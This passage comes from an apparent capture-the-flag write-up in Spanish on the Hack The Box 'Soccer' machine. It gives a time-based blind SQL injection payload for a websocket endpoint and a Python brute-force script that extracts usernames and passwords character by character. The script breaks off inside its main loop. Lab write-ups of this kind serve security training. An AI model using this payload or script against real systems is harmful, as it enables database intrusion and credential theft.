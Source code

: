 Ya para finalizar, podemos intentar volcar la información contenida en las columnas ***username*** y ***password***.

#### Usuarios y contraseñas


Por último, ***dumpearemos*** la información de las columnas *username* y *password*:

```python
"{"id":"1 or if(ord(substr((select group_concat(username,0x3a,password) from accounts),{position},1))=ord(\'{letter}\'),sleep(4),1)}"
```

***group_concat(username,0x3a,password)*** sirve para concatenar el usuario y la contraseña separados por dos puntos (0x3a). Como la base de datos actual es *soccer_db* podemos especificar la tabla directamente sin tener que poder *soccer_db.accounts*. Además, se ha utilizado la directiva ***ord*** para diferenciar entre mayúsculas y minúsculas, ya que MySQL es *case insensitive* y podríamos tener problemas al obtener la información deseada.


```python
import asyncio
import websockets
import signal,sys,string,time
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#Ctrl+C 
signal.signal(signal.SIGINT,def_handler)

#Variables globales
letters = string.printable
burp = {'http':'http://127.0.0.1:8080'}
info = ""
let = ""

async def send_request(request):
    async with websockets.connect('ws://soc-player.soccer.htb:9091/') as websocket:
        await websocket.send(request)
        inicio = time.time()
        response = await websocket.recv()
        fin = time.time()
        response = False
        if fin - inicio >= 4:
            response = True
            global info
            global let
            info += let
            p2.status(info)
        return response

def peticion(request):
    response= asyncio.get_event_loop().run_until_complete(send_request(request))
    return response

if __name__ == "__main__":

    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Info: ")
    time.sleep(2)
    for position in range(1,200):
        for letter in letters:
```